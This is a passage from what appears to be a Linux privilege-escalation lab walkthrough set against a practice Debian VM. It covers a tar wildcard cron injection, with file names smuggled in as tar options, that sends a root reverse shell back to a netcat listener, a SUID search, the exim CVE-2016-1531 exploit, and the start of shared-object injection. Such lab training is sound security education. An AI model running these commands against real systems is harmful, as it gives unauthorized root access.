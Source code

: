 When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```bash
nc -nvlp 4444
```

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

```bash
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

## 11. SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at /home/user/tools/suid/exim/cve-2016-1531.sh.

Run the exploit script to gain a root shell:

```bash
/home/user/tools/suid/exim/cve-2016-1531.sh
```

## 12. SUID / SGID Executables - Shared Object Injection

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

```bash
/usr/local/bin/suid-so
```

Run strace on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:
